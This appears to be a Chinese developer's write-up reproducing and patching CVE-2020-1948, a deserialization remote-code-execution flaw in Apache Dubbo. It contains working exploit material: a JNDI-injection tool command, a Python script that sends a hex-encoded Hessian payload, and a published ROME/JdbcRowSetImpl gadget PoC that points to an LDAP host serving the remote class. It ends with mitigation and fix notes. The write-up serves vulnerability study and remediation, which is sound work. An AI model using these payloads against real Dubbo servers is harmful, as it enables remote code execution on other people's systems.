




关注该漏洞的童鞋，应该对 `Dubbo` 这个架构优秀的 `RPC` 框架不陌生，所以直入主题

腾讯安全玄武实验室研究员发现，`Dubbo 2.7.6` 或更低版本采用的默认反序列化方式存在代码执行漏洞，当 `Dubbo` 服务端暴露时(默认端口：20880)，攻击者可以发送未经验证的服务名或方法名的RPC请求，同时配合附加恶意的参数负载。当恶意参数被反序列化时，它将执行恶意代码。

经验证该反序列化漏洞需要服务端存在可以被利用的第三方库，而研究发现极大多数开发者都会使用的某些第三方库存在能够利用的攻击链，攻击者可以利用它们直接对 `Dubbo` 服务端进行恶意代码执行，影响广泛。

**影响版本**

dubbo 2.7.6 以下的版本

**复现环境**

- mac 10.15
- idea 2020.1
- jdk-8u151（[下载地址](https://www.oracle.com/webapps/redirect/signon?nexturl=https://download.oracle.com/otn/java/jdk/8u151-b12/e758a0de34e24606bca991d704f6dcbf/jdk-8u151-macosx-x64.dmg)）

**漏洞注入简介**

漏洞发现者 `rui0`，使用 `Remo` 模块，最终是通过 `JdbcRowSetImpl` 调用 `jndi` 来进行远程代码执行

**由于该场景复现依赖于低版本的 jdk，之前使用 jdk-8u221 没能复现，去官网下载回低版本，使用低版本后成功复现**

------

- **PoC：** `Proof Of Concept` 的缩写。在黑客圈指：观点验证程序。
- **CVE：** `Common Vulnerabilities & Exposures` 通用漏洞披露。
- **Exp**：`Exploit`，在安全方面，翻译为 「利用」，指利用漏洞进行攻击的动作。
- **Payload**：翻译为「有效负荷」，指成功 `exploit` 后，在目标系统执行的代码或指令。
- **RCE**：`remote code execution` 远程命令执行，简称 `RCE` 漏洞。
- **RMI：** 专为 `Java` 环境设计的远程方法调用机制，远程服务器实现具体的 `Java` 方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法并获取执行结果，使分布在不同的 `JVM` 中的对象的外表和行为都像本地对象一样。
- **LDAP：** 轻量级目录访问协议，目录服务是一种以树状结构的目录数据库为基础，外加各种访问协议的信息查询服务
- **JNDI：** `Java Naming and Directory Interface`，包括 `Naming Server` 和 `Directory Server`。是一种 `Java API`，允许客户端通过名称发现和查找数据、对象。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

以上大概就是本次漏洞所涉及到的专业名词，先有个大概了解，后面的内容看的应该比较明白。

------

复现场景翻阅了很多篇文章和尝试，发现通过别人构造的 `payload` 来复现最为简单，所以这里记录一下复现的流程

攻击依赖于 `rome` 工具包中的 `ToStringBean` 工具，所以无论下载什么提供者项目，都需要将以下依赖加入到 `POM.xml` 文件中


```
<dependency>
    <groupId>com.rometools</groupId>
    <artifactId>rome</artifactId>
    <version>1.7.0</version>
</dependency>
```

以 `dubbo-spring-boot-project` 说明

- 一、在 `github` 下载示例代码，切换分支到 2.7.6 或更早之前
- 二、在 `pom.xml` 中加入上面提到的 `remo` 依赖
- 三、打包启动


```
// 下载
$ git clone https://github.com/apache/dubbo-spring-boot-project.git
// 切换分支
$ git checkout 2.7.6
// 添加完依赖后，打包
$ mvn clean install -DskipTests
```

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/dubbo_sample_provider_import.png)

- 四、启动服务提供者

启动的时候，注意要用低版本的 `JDK`，使用 `IDEA` 的话，可以在这里选择编译运行的 `JRE`

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/dubbo_provider_use_jre.png)

接着启动 `Provier` 即可

------

使用了该位大佬的 `PoC`，里面注入的 `URL` 是 `ldap://127.0.0.1:1389/Exploit`，具体原理可以 [参考资料六](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)

具体原理说明：

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/JNDI_demo.png)

以下内容引用自 [Apache Dubbo Provider反序列化漏洞(CVE-2020-1948) 利用复现及POC](https://www.sayers.top/cve_2020_1948.html)

- 一、下载注入工具代码


```
$ git clone https://github.com/sayers522/JNDI-Injection-Exploit
```

- 二、编译工具包，在 `target` 目录生成


```
$ mvn clean install -DskipTests
```

- 三、运行 `JNDI` 工具包


```
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

例如测试时，执行的命令是打开计算器，可以执行下面命令


```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /System/Applications/Calculator.app" -A 127.0.0.1
```

------

编辑以下 Python 脚本，触发 dubbo provider 反序列化，例如以漏洞名来命名为 `2020_1948.py`


```
#-*-coding:utf-8-*-
import socket

def sendEvilObjData(sock):
	payload="DABBC20000000000000000000000037805322E302E3230366F72672E6170616368652E647562626F2E737072696E672E626F6F742E64656D6F2E636F6E73756D65722E44656D6F5365727669636505312E302E300474657374124C6A6176612F6C616E672F4F626A6563743B48433027636F6D2E726F6D65746F6F6C732E726F6D652E666565642E696D706C2E457175616C734265616E92036F626A096265616E436C61737360433029636F6D2E726F6D65746F6F6C732E726F6D652E666565642E696D706C2E546F537472696E674265616E92036F626A096265616E436C61737361431D636F6D2E73756E2E726F777365742E4A646263526F77536574496D706CAC06706172616D73096C697374656E657273036D61700A6368617253747265616D0B617363696953747265616D0D756E69636F646553747265616D0C62696E61727953747265616D0F7374724D61746368436F6C756D6E730D694D61746368436F6C756D6E73057265734D4406726F77734D4402727302707304636F6E6E09666574636853697A650866657463684469720969736F6C6174696F6E1065736361706550726F63657373696E6708726561644F6E6C790B636F6E63757272656E63790C6D61784669656C6453697A65076D6178526F77730C717565727954696D656F75740B73686F7744656C657465640A726F77536574547970650A64617461536F757263650355524C07636F6D6D616E64624D136A6176612E7574696C2E486173687461626C655A4E4E4E4E4E4E56106A6176612E7574696C2E566563746F729A03666F6F4E4E4E4E4E4E4E4E4E56919A8F8F8F8F8F8F8F8F8F8F4E4E4E4E4E90CBE8925454CBF090909046CBEC1D6C6461703A2F2F3132372E302E302E313A313338392F4578706C6F69744E4E430F6A6176612E6C616E672E436C61737391046E616D65631D636F6D2E73756E2E726F777365742E4A646263526F77536574496D706C633029636F6D2E726F6D65746F6F6C732E726F6D652E666565642E696D706C2E546F537472696E674265616E5191519151915A48047061746830366F72672E6170616368652E647562626F2E737072696E672E626F6F742E64656D6F2E636F6E73756D65722E44656D6F5365727669636509696E7465726661636530366F72672E6170616368652E647562626F2E737072696E672E626F6F742E64656D6F2E636F6E73756D65722E44656D6F536572766963650776657273696F6E05312E302E305A"
	sock.send(payload.decode('hex'))

def run(dip,dport):
	sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	server_addr=(dip,dport)
	sock.connect(server_addr)
	sendEvilObjData(sock)

run("127.0.0.1",12345)
```

**最终复现效果：**

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/CVE-2020-1948-Reproduction.gif)

- 1、下载 `demo` 代码，加入 `rome` 依赖
- 2、启动 `JNDI` 服务
- 3、构造 `2020-1948.py` Poc 攻击

------

网上公布的 `PoC` 代码


```
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 12345)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8087/#ExportObject",
      strMatchColumns=["foo"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

resp = client.send_request_and_return_response(
    service_name='org.apache.dubbo.spring.boot.demo.consumer.DemoService',
    method_name='rce',
    args=[toStringBean])
```

本次漏洞利用的是 `com.rometools.rome.feed.impl.ToStringBean#toString` 方法，重写了 `toString`，该方法将会调用构造对象的所有 `getter` 方法

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/rome_ToStringBean.png)

从上面 `PoC` 可以看到，执行 `Dubbo` 调用时，传入的是 `ToStringBean` 类型参数，构造的对象是`com.sun.rowset.JdbcRowSetImpl`，并且 `datasource` 属性设置的是 `JNDI` 暴露的 `url`，在调用 `JdbcRowSetImpl` 的 `getDatabaseMetaData` 方法时，执行 `connect` 操作，下载远端代码，在 `Service Provider` 执行，造成攻击。

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/jdbcRowSetImpl_connect_result.png)

调起 `toString` 方法的地方是在 `Dubbo Provider` 接收 `DecodeHandler#received:44` 请求，在 `DecodeableRpcInvocation#decode` 反序列化参数的地方：

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/decode_by_hession.png)

`dubbo` 默认使用的是 `hession2` 序列化，解析参数执行的是这个方法

> org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectInput#readUTF

在 `hession` 反序列化过程中，通过下面代码段执行到了 `ToStringBean#toString`

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/equalsBean_hashcode_chain.png)

至此，注入攻击的流程到这里执行完成。可以参考左下侧的堆栈链路：


```
connect:624, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:158, ToStringBean (com.rometools.rome.feed.impl)
toString:129, ToStringBean (com.rometools.rome.feed.impl)
beanHashCode:198, EqualsBean (com.rometools.rome.feed.impl)
hashCode:180, EqualsBean (com.rometools.rome.feed.impl)
hash:339, HashMap (java.util)
put:612, HashMap (java.util)
doReadMap:145, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readMap:126, MapDeserializer (com.alibaba.com.caucho.hessian.io)
readObject:2703, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2278, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2080, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:2074, Hessian2Input (com.alibaba.com.caucho.hessian.io)
readObject:92, Hessian2ObjectInput (org.apache.dubbo.common.serialize.hessian2)
decode:139, DecodeableRpcInvocation (org.apache.dubbo.rpc.protocol.dubbo)
decode:79, DecodeableRpcInvocation (org.apache.dubbo.rpc.protocol.dubbo)
decode:57, DecodeHandler (org.apache.dubbo.remoting.transport)
received:44, DecodeHandler (org.apache.dubbo.remoting.transport)
run:57, ChannelEventRunnable (org.apache.dubbo.remoting.transport.dispatcher)
```

------

- 合并社区 `aquariuspj` 用户给出的对 `DecodeableRpcInvocation` 增加入参类型校验

  [修复分支 #6374](https://github.com/apache/dubbo/commit/5ad186fa874d9f0dfb87b989e54c1325d39abd40)

- 漏洞发现者 `rui0` 建议删除 `RpcInvocation` 类的 `toString` 方法中输出的 `arguments` 参数,防范后反序列化攻击。同时对 `Hessian` 进行黑白名单加固来防范 `Hessian` 反序列化攻击。
   [评论建议](http://rui0.cn/archives/1338)

还有[阿里云官方的安全建议](https://developer.aliyun.com/article/766283)

> 目前官方还未发布针对此漏洞绕过手法的补丁，在阿里云提供一个月的默认防御期限内，建议客户参考以下方法进行缓解，并关注官方补丁动态，及时进行更新：

- 1、升级 2.7.7 版本，并根据https://github.com/apache/dubbo/pull/6374/commits/8fcdca112744d2cb98b349225a4aab365af563de 的方法进行参数校验
- 禁止将 `Dubbo` 服务端端口开放给公网，或仅仅只对能够连接至 `Dubbo` 服务端的可信消费端IP开放
- `Dubbo` 协议默认采用 `Hessian` 作为序列化反序列化方式，该反序列化方式存在反序列化漏洞。在不影响业务的情况下，建议更换协议以及反序列化方式。具体更换方法可参考：http://dubbo.apache.org/zh-cn/docs/user/references/xml/dubbo-protocol.html

------

需要引入 `rome` 类型的 `jar` 包，包含特殊的构造方法和 `toString` 方法（或许还有其它攻击点）

社区讨论和 `commit` 的内容，增加了前置校验，在反序列化之前判断服务或方法是否有效，非 `$invoke` 或 `$echo` 方法将会抛出错误，不进行参数的反序列化，增加了一点攻击难度。但由于方法名 `methodName` 可以用户自定义，所以修改方法名还是有可能跳过校验，触发漏洞

[](http://img.sevenyuan.cn/dubbo/CVE-2020-1948/CVE_2020-1948_github_comment.png)

业务方使用 `rome`  依赖的很少，构造这种类型的攻击，由于没有这个类，在 `provider` 反序列化时会提前报 `classNotFoundException`，没有执行到 `readObject` 方法，从而无法攻击。

**综上所述，考虑到修复难度和影响范围，最后对 dubbo 修改方案如下：**

- 1、合并社区针对改漏洞的[修复分支 #6374](https://github.com/apache/dubbo/commit/5ad186fa874d9f0dfb87b989e54c1325d39abd40)
- 2、将 `RpcInvocation#toString` 方法中 `Arrays.toString(arguments)` 移除，避免对输入参数进行反序列化

------

隔行如隔山，一山还有一山高，修复漏洞真困难。感慨漏洞发现者们，多亏这些白帽子的仔细，揭露了这么多可攻击点，将漏洞信息提交到安全中心，让使用方了解到漏洞详情。

还有 `Dubbo` 这个中间件的社区活跃度很高，出现问题后，大家讨论的热情高涨，积极去修复漏洞，社区活跃度高，代码更新快，支持的功能越来越多，使用起来也更放心。

通过这次分析，了解到挺多基础的安全知识，感觉随着开源代码被研究更透彻，可供攻击的点也越来越多，在代码设计和编写时，也得注意一下安全信息，避免被攻击。

------

